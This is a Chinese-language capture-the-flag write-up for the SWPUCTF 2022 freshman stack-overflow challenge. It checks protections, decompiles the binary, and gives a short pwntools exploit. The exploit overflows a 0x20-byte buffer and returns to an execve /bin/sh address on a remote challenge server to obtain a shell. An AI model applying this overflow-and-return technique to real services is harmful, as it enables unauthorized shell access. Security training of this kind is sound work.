




# [SWPUCTF 2022 新生赛]有手就行的栈溢出

查看保护



这里是一些常规的保护开启下一步就是ida反编译





这里发现前面的system不能使用但是在函数表中发现了execve函数它也可以使得我们得到binsh的权限因此可以用这个来代替system



发现栈溢出漏洞

exp：

```python
from pwn import *

io = remote("node5.anna.nssctf.cn",26030)
# io= process()

binsh = 0x0401257
payload = b'a'*(0x20+8)+p64(binsh)
io.send(payload)
io.interactive()
```

